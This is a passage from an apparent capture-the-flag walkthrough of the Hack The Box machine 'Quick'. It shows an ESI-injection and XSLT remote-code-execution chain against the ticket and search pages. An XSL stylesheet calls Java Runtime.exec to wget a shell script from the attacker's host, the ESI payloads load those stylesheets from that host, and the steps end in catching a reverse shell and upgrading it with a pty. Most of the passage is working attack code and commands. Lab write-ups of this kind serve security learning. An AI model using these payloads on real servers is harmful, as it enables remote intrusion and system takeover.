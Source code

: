 exploitexec.xsl:

```
<?xml version="1.0" ?>
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
<xsl:output method="xml" omit-xml-declaration="yes"/>
<xsl:template match="/"
xmlns:xsl="http://www.w3.org/1999/XSL/Transform"
xmlns:rt="http://xml.apache.org/xalan/java/java.lang.Runtime">
<root>
<xsl:variable name="cmd"><![CDATA[wget http://10.10.xx.xx/shell.sh -O /tmp/shell.sh]]></xsl:variable>
<xsl:variable name="rtObj" select="rt:getRuntime()"/>
<xsl:variable name="process" select="rt:exec($rtObj, $cmd)"/>
Process: <xsl:value-of select="$process"/>
Command: <xsl:value-of select="$cmd"/>
</root>
</xsl:template>
</xsl:stylesheet>
```

Now, we need to host these three files on our local webserver, and get to work!

We first need to send the following payload to http://quick.htb/ticket.php:

Note, the src= has to be something on the victim machine, or it will fail, as it's going through a proxy that can't seem to communicate outside of the machine:

```
<esi:include src="index.php" stylesheet="http://10.10.xx.xx/exploitdown.xsl">
</esi:include>
```

Now, take note of the ticket number, and visit it at http://quick.htb:9001/search.php?search=TKT-xxxx

We get a two pings back to our webserver, one for exploitdown.xsl and one for shell.sh

We now need to do the same with exploitexec.xsl:

```
<esi:include src="index.php" stylesheet="http://10.10.xx.xx/exploitexec.xsl">
</esi:include>
```

Now, open a listener on the port you chose, and visit http://quick.htb:9001/search.php?search=TKT-xxxx

We'll import TTY and see who we are:

```
python3 -c 'import pty;pty.spawn("/bin/bash")'

sam@quick:~$ whoami
sam
```

We can look at the db.php file in /var/www/html:

